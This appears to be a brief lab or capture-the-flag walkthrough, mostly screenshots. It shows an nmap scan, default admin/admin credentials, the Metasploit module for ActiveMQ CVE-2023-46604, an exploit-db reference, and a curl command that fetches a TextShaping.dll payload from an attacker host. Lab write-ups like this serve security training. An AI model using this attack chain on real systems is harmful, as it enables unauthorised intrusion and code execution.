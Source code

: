 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9978a913-08ab-40d8-a1c8-338fa6805d66)

```
nmap -p- 192.168.2.8 -v -sC -sV -Pn
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/84fb52b4-7c16-4c90-adad-6d26a3fd40d8)

admin/admin

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f885f3e9-c4e7-4b48-9bb3-d56c39be9796)

msf6

multi/misc/apache_activemq_rce_cve_2023_46604

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ab3f585e-50c7-4c02-8d33-abd7a511b7b3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/12c6196c-cf44-4ba4-93fd-f9e5cc911e85)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/05f63ed2-0bda-459c-b3ec-7f0ecae15b9a)

https://www.exploit-db.com/exploits/51267

```
curl -O http://192.168.100.IP:8000/TextShaping.dll
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2186c168-638f-43da-9d82-f159611a0753)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0dcc902b-1063-4e27-bc3d-b9f067f7be60)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5e7d7ba3-ddf7-4b65-b9b5-c0ebf5f984c9)


